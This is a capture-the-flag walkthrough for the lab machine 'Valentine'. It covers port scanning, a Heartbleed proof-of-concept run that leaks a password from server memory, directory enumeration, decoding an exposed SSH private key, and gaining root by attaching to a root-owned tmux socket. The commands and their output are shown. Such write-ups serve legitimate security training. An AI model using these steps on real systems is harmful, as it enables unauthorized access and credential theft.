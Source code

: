 # Valentine

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.98
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:30 EDT
Nmap scan report for 10.129.85.98
Host is up (0.0087s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

### Heartbleed

Both the HTTP and HTTPS ports just show this image:

<figure><img src="../../../.gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

This is a direct hint to use the Heartbleed exploit (the symbol is literally right there!). This exploit takes advantage of the OpenSSL library, allowing attackers to steal information from the memory of the target server.&#x20;

There are tons of PoCs online for this. I used [this](https://gist.github.com/eelsivart/10174134).&#x20;

```
$ python2 exploit.py 10.129.85.98 -p 443 

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.129.85.98:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.129.85.98:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==.u.....e......&
```

We can make out some base64 at the end, and when decoded it gives `heartbleedbelievethehype`.&#x20;

### Web Enumeration

I did a `gobuster` scan on the web services to see where we can use this thing.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.85.98 -t 100            
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.85.98
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/02 08:39:51 Starting gobuster in directory enumeration mode
===============================================================
/dev                  (Status: 301) [Size: 310] [--> http://10.129.85.98/dev/]
```

Found a `/dev` endpoint.&#x20;

<figure><img src="../../../.gitbook/assets/image (540).png" alt=""><figcaption></figcaption></figure>

The first directory contains a lot of hex characters. We can download this to a file and convert it from hex to string. This would give a private SSH key:

<figure><img src="../../../.gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>

Since we have a password, we can attempt to write decode the key via `openssl`.&#x20;

```
$ openssl rsa -in privkey.txt -out unencrypted
Enter pass phrase for privkey.txt:
writing RSA key
$ chmod 600 unencrypted
```

Afterwards, just SSH in as `hype` using the key and grab the user flag.

## Privilege Escalation&#x20;

After we are in, we can view the bash history file because it is rather large:

```
hype@Valentine:~$ cat .bash_history
exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
```

So `tmux` is on the machine and it might be running. `tmux` is a terminal multiplexer, which basically means that the terminal is running on another window within the machine. What we can do is just attach ourselves to the existing `tmux` process and get a `root` shell.

```
$ tmux -S /.devs/dev_sess
root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
```
